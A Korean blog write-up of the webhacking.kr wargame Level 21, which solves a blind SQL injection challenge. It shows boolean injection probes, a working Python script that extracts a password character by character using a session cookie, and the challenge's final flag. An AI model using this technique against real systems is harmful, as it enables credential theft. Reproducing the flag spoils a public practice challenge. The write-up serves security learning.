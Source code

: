 ```yaml
---
layout: post
title:  "[Web.kr]Level 21"
subtitle:   "[Web.kr]Level 21"
categories: Wargame[webkr]
tags:
- Wargame
- webhacking.kr
- Write-up
---
```


<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144412211.png" width="400px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144840924.png" width="400px">

Blind SQL Injection이라고 되어 있다. 주소창을 보니 no, id, pw값을 입력받고 있다.

no에 숫자들을 입력해 보니 True라고 나오는 숫자는 1과 2뿐이다. 따라서 id값은 1과 2이다.

이제 각 id에 맞는 id와 pw를 찾아내야 한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145056313.png" width="300px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145219268.png" width="300px">

`1 and length(id)=5` 를 이용하여 id의 길이가 5인 것과, pw의 길이가 5인 것을 알아 냈다. 똑같은 방법으로 no가 2인 id와 pw의 길이도 알아내면 id는 5, pw는 19의 길이를 가지고 있다.

|  no  |  id   |   pw   |
| :--: | :---: | :----: |
|  1   | ? (5) | ? (5)  |
|  2   | ? (5) | ? (19) |



이제 아이디를 찾아보자. 보통 5의 길이를 가진 id는 'admin'이 있다. 이를 예측해보고 no=1의 id를 substr()를 이용하여 찾아보자.

`1 and ascii(substr(id, 1, 1))=97` 

위 명령어는 no가 1이고, id의 첫번째 인덱스에서 1byte가 ascii코드로 97('a')인지 확인하는 명령어이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145852871.png" width="300px">

생각처럼 no=1의 id는 'admin'이 아닌것 같다. 하지만 같은 방식으로 no=2의 id를 비교해보니 'admin'이 맞았다.

|  no  |    id     |   pw   |
| :--: | :-------: | :----: |
|  1   |   ? (5)   | ? (5)  |
|  2   | admin (5) | ? (19) |

이렇게 하나하나씩 다 비교해 보는 것은 매우 힘든일이다. 한글자 마다 ascii코드 33부터 136까지 다 비교해봐야 하기 때문이다. 

```python
import requests

url = 'http://webhacking.kr/challenge/bonus/bonus-1/index.php?'
cookie={'PHPSESSID':'b82bba458acf3b6fd70126be82c02e2f'}
pw = ''

# no=1
for i in range(1, 6):
    for j in range(33, 137):
        query = "no=1 and ascii(substr(pw,"+str(i)+" ,1))="+str(j)
        payload = url+query
        print("Password Parsing : "+pw+chr(j))
        res = requests.get(payload, cookies=cookie)
        if((res.text).find("True")>0):
            pw += chr(j)
            print("Find PW : "+pw)
            break

print("[+]Finish Password Parsing...")
print("Password : "+pw)
```

힘든건 컴퓨터한테 시키면 된다.

|  no  |    id     |            pw            |
| :--: | :-------: | :----------------------: |
|  1   |   ? (5)   |        guest (5)         |
|  2   | admin (5) | blindsqlinjectionkk (19) |

no=1의 pw를 찾다보니 비밀번호 한자리씩 파싱하는데 시간이 1-2초씩 소비하였다. 5글자 알아내는대도 5분정도 걸린것 같다. no=2의 pw는 소문자 일것으로 추측하고 경우의 수를 줄여 파싱을 진행하였다. (시간은 금이니까 😏)

##### **flag = blindsqlinjectionkk**

